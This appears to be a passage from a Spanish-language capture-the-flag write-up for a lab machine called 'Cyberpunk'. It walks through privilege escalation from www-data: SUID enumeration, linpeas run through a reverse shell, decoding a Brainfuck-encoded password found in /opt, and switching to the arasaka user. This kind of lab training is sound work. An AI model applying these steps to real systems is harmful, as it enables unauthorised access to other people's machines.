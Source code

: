 Probamos varias maeras de escalar privilegos

Sudo 
```bash
www-data@Cyberpunk:/etc$ sudo -l
[sudo] password for www-data: 
```

Buscamos archivos SUID
```bash
find / -perm -u=s -type f 2/dev/null
/usr/bin/umount
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/su
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/chfn
/usr/bin/passwd
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```

No encontramos nada útil
Vamos a enumerar privilegios con linepeas
Subimos el archivo mediante el ftp y accedemos a el por la revershell

En el log , encontramos algo interesante:

```bash
╔══════════╣ Unexpected in /opt (usually empty)
total 12
drwxr-xr-x  2 root root 4096 May  1  2024 .
drwxr-xr-x 18 root root 4096 May  1  2024 ..
-rwxrwxrwx  1 root root  201 May  1  2024 arasaka.txt
```

Accedemos al archivo

```bash
www-data@Cyberpunk:/opt$ cat arasaka.txt 
++++++++++[>++++++++++>++++++++++++>++++++++++>++++++++++>+++++++++++>+++++++++++>++++++++++++>+++++++++++>+++++++++++>+++++>+++++>++++++<<<<<<<<<<<<-]>-.>+.>--.>+.>++++.>++.>---.>.>---.>.>--.>-----..
```

Se trata de un tipo de código llamado BrainFuck. 
Decodificamos el código con la web : 
`https://www.dcode.fr/brainfuck-language`

Nos da como resultado: `cyberpunk2077`
Comprobamos si ese es el password del usuario arasaka

```bash
www-data@Cyberpunk:/opt$ su arasaka
Password: 
arasaka@Cyberpunk:/opt$ 
arasaka@Cyberpunk:/opt$ cd /home
arasaka@Cyberpunk:/home$ cd arasaka/
arasaka@Cyberpunk:~$ ls
randombase64.py  user.txt
arasaka@Cyberpunk:~$ cat user.txt 
```
